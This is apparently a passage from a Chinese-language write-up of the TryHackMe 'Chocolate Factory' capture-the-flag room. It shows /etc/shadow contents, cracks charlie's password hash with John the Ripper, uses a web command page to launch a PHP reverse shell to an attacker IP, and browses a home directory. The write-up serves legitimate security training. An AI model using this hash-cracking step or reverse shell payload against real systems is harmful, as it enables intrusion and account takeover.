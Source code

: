 ```
stunnel4:!:18382:0:99999:7:::
sslh:!:18382:0:99999:7:::
nm-openvpn:*:18382:0:99999:7:::
nm-openconnect:*:18382:0:99999:7:::
pulse:*:18382:0:99999:7:::
saned:*:18382:0:99999:7:::
inetsim:*:18382:0:99999:7:::
colord:*:18382:0:99999:7:::
i2psvc:*:18382:0:99999:7:::
dradis:*:18382:0:99999:7:::
beef-xss:*:18382:0:99999:7:::
geoclue:*:18382:0:99999:7:::
lightdm:*:18382:0:99999:7:::
king-phisher:*:18382:0:99999:7:::
systemd-coredump:!!:18396::::::
_rpc:*:18451:0:99999:7:::
statd:*:18451:0:99999:7:::
_gvm:*:18496:0:99999:7:::
charlie:$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/:18535:0:99999:7:::

```

看上去是/etc/shadow里的文件内容
把```charlie:$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/```保存到hash.txt
用john去破解
```
┌──(root💀kali)-[~/tryhackme/ChocolateFactory]
└─#  john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt   
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
cn7824           (charlie)
1g 0:00:12:04 DONE (2021-09-29 23:29) 0.001379g/s 1358p/s 1358c/s 1358C/s cocker6..cn123
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
获得凭证```charlie:cn7824```

以为是ssh密码，但其实不是。

打开http://10.10.164.40/，是一个登陆页面，用上面的凭证登录，会重定向到home.php

此页面有一个命令行输入框，可以执行linux命令

也就是从这里我们可以获得一个反弹shell

使用下面payload获得反弹shell

```php -r '$sock=fsockopen("10.13.21.169",4242);exec("/bin/sh -i <&3 >&3 2>&3");'```

在charlie家目录拿到id_rsa

```
$ cat user.txt
cat: user.txt: Permission denied
$ ls -alh
total 40K
drwxr-xr-x 5 charlie charley 4.0K Oct  7  2020 .
drwxr-xr-x 3 root    root    4.0K Oct  1  2020 ..
-rw-r--r-- 1 charlie charley 3.7K Apr  4  2018 .bashrc
drwx------ 2 charlie charley 4.0K Sep  1  2020 .cache
drwx------ 3 charlie charley 4.0K Sep  1  2020 .gnupg
drwxrwxr-x 3 charlie charley 4.0K Sep 29  2020 .local
